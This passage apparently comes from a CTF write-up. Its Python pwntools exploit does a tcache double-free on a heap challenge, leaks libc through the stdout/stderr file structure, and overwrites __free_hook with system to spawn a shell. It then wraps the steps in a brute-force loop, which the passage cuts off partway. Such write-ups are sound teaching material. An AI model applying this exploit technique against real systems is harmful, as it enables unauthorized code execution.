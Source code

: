 ```python
ru('>')
add(2, 0x20, p64(guess_stderr))

ru('>')
add(3, 0x20, 'aaa')
ru('>')
add(4, 0x20, 'aaa')
ctx.clean()
add(5, 0x20, p64(0xfbad2087))
ru('gift :')
stderr = int(ru('\n'), 16)

libc_base = stderr - 4114048
free_hook = libc_base + 4118760
system = libc_base + 324672

add(6, 0x30, 'ccc')
ru('>')
remove(1)
ru('>')
remove(1)
ru('>')
add(7, 0x30, p64(free_hook))
ru('>')
add(8, 0x30, 'aaa')
ru('>')
add(9, 0x30, p64(system))
ru('>')
add(10, 0x40, '/bin/sh\0')
ru('>')
remove(10)
irt()
```

## step 5

we have got a shell via debug, then we need to get it by brute force. just add several lines.

```python
while True:
    try:
        context.log_level = 'info'
        rs()
        
        #dbg('c')

        add(0, 0x20, 'aaa')
        ru('gift :')
        heap_base = int(ru('\n'), 16) - 0x11e70
        guess_stderr = heap_base - 0x56cea0
        
        ru('>')
        add(1, 0x30, 'bbb')
        ru('>')
        remove(0)
        ru('>')
        remove(0)
        ru('>')
        add(2, 0x20, p64(guess_stderr))
        
        ru('>')
        add(3, 0x20, 'aaa')
        ru('>')
```
